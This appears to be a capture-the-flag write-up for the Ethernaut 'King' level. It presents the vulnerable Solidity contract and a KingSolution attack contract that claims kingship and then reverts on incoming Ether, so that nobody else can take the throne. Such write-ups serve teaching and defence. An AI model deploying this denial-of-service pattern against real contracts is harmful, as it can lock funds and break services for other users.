 # Hello Ethernaut

## Challenge Description

The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD

Such a fun game. Your goal is to break it.

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}

```

## Challenge Solution Walkthrough

In this challenge, the goal is to become the `king` of the contract and prevent others from becoming the `king` by making the contract revert any transactions that send Ether to it.

To achieve this, we can deploy a separate contract that will handle the process of becoming the `king`. This contract will not accept any Ether and will revert any transaction that sends Ether to it.

Here's an example of a contract, named `KingSolution`, that can be deployed for this purpose:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

error RevertOnPurpose();
error PaymentFailed();

contract KingSolution {
    address public kingContract;

    constructor(address kingContractAddress) {
        kingContract = kingContractAddress;
    }

    function solveChallenge() public payable {
        (bool success, ) = payable(kingContract).call{value: msg.value}("");
        if (success == false) revert PaymentFailed();
    }

    receive() external payable {
        revert RevertOnPurpose();
    }
}
```

In the `solveChallenge()` function of this contract, we forward any received Ether to the `kingContract`. If the transaction fails, we revert with a custom error `PaymentFailed`.

The `receive()` function is marked as `external payable`, which means it can receive Ether. However, it is implemented to revert on purpose using the `revert RevertOnPurpose()` statement.

To solve the challenge, we deploy this `KingSolution` contract and provide the address of the original `king` contract as a constructor argument. Then, we execute the `solveChallenge()` function of the `KingSolution` contract.

By doing so, we become the `king` of the original contract, and since the `KingSolution` contract reverts any transaction that sends Ether, we prevent others from becoming the `king`.

Congratulations! You have successfully completed the challenge.

## Challenge Description After Solving

Most of Ethernaut's levels try to expose (in an oversimplified form of course) something that actually happened — a real hack or a real bug.

In this case, see: [King of the Ether](https://www.kingoftheether.com/thrones/kingoftheether/index.html) and [King of the Ether Postmortem](http://www.kingoftheether.com/postmortem.html).

